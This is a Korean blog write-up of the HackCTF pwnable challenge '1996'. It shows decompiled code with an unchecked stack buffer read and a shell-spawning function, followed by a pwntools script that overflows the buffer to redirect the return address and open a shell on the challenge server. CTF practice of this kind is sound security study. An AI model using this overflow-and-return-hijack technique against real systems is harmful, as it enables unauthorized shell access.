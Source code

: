 ```yaml
---
layout: post
title:  "[hackCTF]1996"
date:   2020-02-18
---
```


hackCTF pwnable 14번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx
  __int64 v4; // rax
  __int64 v5; // rdx
  __int64 v6; // rbx
  char *v7; // rax
  __int64 v8; // rdx
  __int64 v9; // rax
  char name; // [rsp+0h] [rbp-410h]

  std::operator<<<std::char_traits<char>>(&_bss_start, "Which environment variable do you want to read? ", envp);
  std::operator>><char,std::char_traits<char>>(&std::cin, &name);
  v4 = std::operator<<<std::char_traits<char>>(&_bss_start, &name, v3);
  v6 = std::operator<<<std::char_traits<char>>(v4, "=", v5);
  v7 = getenv(&name);
  v9 = std::operator<<<std::char_traits<char>>(v6, v7, v8);
  std::ostream::operator<<(v9, &std::endl<char,std::char_traits<char>>);
  return 0;
}
```

## ida - spawn_shell(void)
```c
int spawn_shell(void)
{
  char *argv; // [rsp+0h] [rbp-10h]
  __int64 v2; // [rsp+8h] [rbp-8h]

  argv = "/bin/bash";
  v2 = 0LL;
  return execve("/bin/bash", &argv, 0LL); // 쉘을 띄울 수 있다
}
```

main함수는 문자열을 입력 받아 그 값이 환경변수이면 경로를 출력한다. spawn_shell 함수는 flag를 출력하므로 main 함수의 ret을 spawn_shell의 주소로 덮어 문제를 해결하자.

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3013)

payload = "A"*0x418+p64(0x400897)

p.sendline(payload)

p.interactive()
```

## 결과
![1401](https://drive.google.com/uc?id=1c29YhzXiygH5fvEJk--Dkb5xEoBiBW7d)
